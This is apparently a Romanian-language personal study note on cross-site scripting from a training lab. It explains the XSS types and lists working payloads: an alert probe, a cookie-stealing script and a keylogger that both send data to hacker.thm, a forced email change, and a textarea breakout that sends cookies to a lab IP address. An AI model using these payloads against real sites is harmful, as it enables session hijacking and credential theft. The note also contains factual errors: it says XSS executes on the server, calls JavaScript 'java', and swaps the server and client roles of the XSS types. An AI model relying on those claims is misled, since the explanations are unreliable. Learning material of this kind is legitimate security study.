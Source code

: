 XSS Cross Site Stipting - este o vulnerabilitate care permite executarea codului `java` pe partea de server dificultatea poate varia de la foarte simple spre foarte complicate.
Sunt 3 tipuri esentiale de [[XSS]]:
- DOM XSS (Document Object Model-based Cross-site Scripting) - foloste de obicei [[HTML]] pentru a execut `javascript` cu ajutorul tegului `<script></script>`
- Persistent (Server-side) - se ruleaza atunci cand serverul incarca pagina sunt de obicei in gasite in postarile de comentariu
- Reflected (Client-side) - la fel este cod `javascript` este posibil daca nu sa verificat date introduse de utilizator.
Atunci cand folosim componentele a lui [[HTML]] acest tip se mai numeste si [[XFS]] (Cross-Frame Scripting) 
-----------------

XSS (Cross Site Scripting) → este bazat pe [[JavaScript]]. Este un tip de atack care permite executarea codului [[JavaScript]] pe partea de server.
```java
<script>alert('XSS');</script>
```
Acesta este un `payload` simplu ca sa arate ca conceplut sau ca este vulnerabil la asa tip de atack.
Cu urmatorul `payload` putem fura seansul de `cookie`:
```java
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
Si pe urma sa ne logam ca utilizatorul dat.
Un `keyloger` care va transmite toata informatia pe serviciul nostru:
```java
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
Un `payload` mai specific pentru o functie anumita pe sistemul nostru de exemplu `user.changeEmail()`:
```java
<script>user.changeEmail('attacker@hacker.thm');</script>
```
### Reflected XSS
Reflected XSS apare atunci cand datele la utilizator sunt introduse direct in site-ul nostru.
![[Pasted image 20240507144628.png]]
Serviciul nu verifica `inputul` de la utilizator si putem executa cod malentios:
![[Pasted image 20240507144720.png]]
Daca sa totalirizam avem asa un fel de schema:
![[Pasted image 20240507144816.png]]
### Store XSS
Acest tip de `payload` se salveaza in baza de date si este executat atunci cand alti utilizatori aceseaza serviciul dat. 
In felul data ar putea arata un astfel de atack:
![[Pasted image 20240507150117.png]]
### XSS on DOM
?
### Blind XSS
Pentru a verifica `XSS` vulnerabilitati putem folosi instrumentul `XSS Hunter Express`.
### Polyglots


Daca este vulnerabil la acest tip de atack putem primi si datele despre sessia lui:
```java
</textarea><script>fetch('http://10.8.228.3:9001?cookie=' + btoa(document.cookie) );</script>
```
